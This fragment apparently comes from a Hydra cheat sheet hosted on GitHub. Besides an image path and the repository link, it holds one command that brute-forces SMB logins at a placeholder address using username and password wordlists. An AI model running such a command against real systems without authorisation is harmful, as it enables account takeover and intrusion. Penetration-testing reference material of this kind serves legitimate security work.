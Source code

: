 https://github.com/frizb/Hydra-Cheatsheet

hydra -L usernames.txt -P passwords.txt $ip smb -V -f



